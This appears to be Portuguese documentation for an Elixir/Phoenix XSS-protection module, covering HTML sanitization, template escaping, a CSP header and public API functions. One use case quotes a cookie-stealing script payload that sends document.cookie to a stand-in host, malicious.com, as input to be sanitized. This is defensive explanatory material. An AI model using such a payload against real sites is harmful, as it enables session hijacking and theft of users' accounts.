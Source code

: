 ## 🛠️ 4. Casos de Uso Principais

*   **Usuário Envia um Comentário com Script Malicioso:**
    *   O usuário tenta postar: `Ótimo artigo! <script>fetch('http://malicious.com/steal_cookie=' + document.cookie)</script>`
    *   Antes de salvar ou exibir, `XssProtection.sanitize_html(comment_text)` é chamado.
    *   O script é removido ou escapado, resultando em: `Ótimo artigo! &lt;script&gt;...&lt;/script&gt;` ou `Ótimo artigo!`.
*   **Exibição do Nome de Usuário na Página:**
    *   Ao renderizar `<h1>Bem-vindo, <%= @user.name %>!</h1>`, o framework Phoenix (ou a função de template) automaticamente escapa o `@user.name`. Se o nome do usuário contivesse `<script>`, seria renderizado como texto literal.
*   **Configuração de CSP:**
    *   O `XssProtectionPlug` adiciona o header `Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.google.com` a todas as respostas HTML. Isso instrui o navegador a apenas carregar scripts do próprio domínio e de `apis.google.com`.

## 🌊 5. Fluxos Importantes

### Fluxo de Sanitização de Entrada para um Campo de \"Descrição\" (que permite HTML limitado)

1.  **Usuário Submete Dados:** Usuário envia um formulário com um campo \"descrição\".
2.  **Controller/Serviço:** Recebe os dados. Antes de persistir:
    `{:ok, sanitized_description} = DeeperHub.Security.XssProtection.sanitize_html(params[\"description\"], allow_safe_tags: true, safe_tags: [\"b\", \"i\", \"p\", \"a\"], safe_attributes: [\"href\"])`
3.  **`XssProtectionService.sanitize_html/2`:**
    *   Usa uma biblioteca de sanitização HTML (ex: `HtmlSanitizeEx`).
    *   Configura a biblioteca com a lista branca de tags e atributos seguros.
    *   Processa a string de entrada, removendo ou neutralizando quaisquer tags/atributos não permitidos.
4.  **Persistência:** A `sanitized_description` é salva no banco de dados.
5.  **Exibição:** Ao exibir a descrição, se ela for renderizada como HTML bruto (ex: `raw(@description)` em Phoenix), ela já está sanitizada. Se for renderizada normalmente (`<%= @description %>`), será adicionalmente escapada pelo template engine, o que é seguro.

## 📡 6. API (Funções Públicas da Fachada)

### 6.1. `DeeperHub.Security.XssProtection.sanitize_string(input :: String.t(), opts :: keyword()) :: {:ok, String.t()} | {:error, term()}`

*   **Descrição:** Sanitiza uma string, geralmente escapando caracteres HTML especiais para torná-los seguros para exibição como texto. Esta é a abordagem padrão para a maioria das strings.
*   **`opts`:**
    *   `:context` (atom): O contexto de saída (ex: `:html_content`, `:html_attribute`, `:javascript`, `:css`, `:url`). Determina o tipo de escaping. (Padrão: `:html_content`)
*   **Exemplo:**
    ```elixir
    sanitized_name = XssProtection.sanitize_string(\"<script>alert(1)</script>\")
    # Resulta em: {:ok, \"&lt;script&gt;alert(1)&lt;/script&gt;\"}
    ```
